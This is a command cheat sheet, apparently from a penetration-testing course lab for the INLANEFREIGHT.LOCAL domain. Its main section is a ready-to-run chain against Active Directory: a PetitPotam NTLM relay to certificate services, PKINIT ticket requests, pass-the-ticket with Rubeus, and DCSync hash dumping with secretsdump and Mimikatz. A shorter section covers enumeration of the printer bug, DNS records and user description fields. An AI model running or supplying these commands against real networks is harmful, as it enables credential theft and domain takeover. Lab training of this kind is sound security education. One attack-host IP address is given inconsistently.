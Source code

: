   
  

# PetitPotam

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | Impacket tool used to create an `NTLM relay` by specifiying the web enrollment URL for the `Certificate Authority` host. Perfomred from a Linux-based host. |

| `git clone https://github.com/topotam/PetitPotam.git`        | Used to clone the `PetitPotam` exploit using git. Performed from a Linux-based host. |

| `python3 PetitPotam.py 172.16.5.225 172.16.5.5`              | Used to execute the PetitPotam exploit by  specifying the IP address of the attack host (`172.16.5.255`) and the target Domain Controller (`172.16.5.5`). Performed from a Linux-based host. |

| `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <base64 certificate> = dc01.ccache` | Uses `gettgtpkinit`.py to request a TGT ticket for the Domain Controller (`dc01.ccache`) from a Linux-based host. |

| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | Impacket tool used to perform a DCSync attack and retrieve one or all of the `NTLM password hashes` from the target Windows domain. Performed from a Linux-based host. |

| `klist`                                                      | `krb5-user` command used to view the contents of the `ccache` file. Performed from a Linux-based host. |

| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$` | Used to submit TGS requests using `getnthash.py` from a Linux-based host. |

| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | Impacket tool used to extract hashes from `NTDS.dit` using a `DCSync attack` and a captured hash (`-hashes`). Performed from a Linux-based host. |

| `.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /<base64 certificate>=/ptt` | Uses Rubeus to request a TGT and perform a `pass-the-ticket attack` using the machine account (`/user:ACADEMY-EA-DC01$`) of a Windows target. Performed from a Windows-based host. |

| `mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt`      | Performs a DCSync attack using `Mimikatz`. Performed from a Windows-based host. |

  
  
  

# Miscellaneous Misconfigurations

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `Import-Module .\SecurityAssessment.ps1`                     | Used to import the module `Security Assessment.ps1`. Performed from a Windows-based host. |

| `Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | SecurityAssessment.ps1 based tool used to enumerate a Windows target for `MS-PRN Printer bug`. Performed from a Windows-based host. |

| `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5`      | Used to resolve all records in a DNS zone over `LDAP` from a Linux-based host. |

| `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r`   | Used to resolve unknown records in a DNS zone by performing an `A query` (`-r`) from a Linux-based host. |

| `Get-DomainUser * \| Select-Object samaccountname,description ` | PowerView tool used to display the description field of select objects (`Select-Object`) on a target Windows domain from a Windows-based host. |

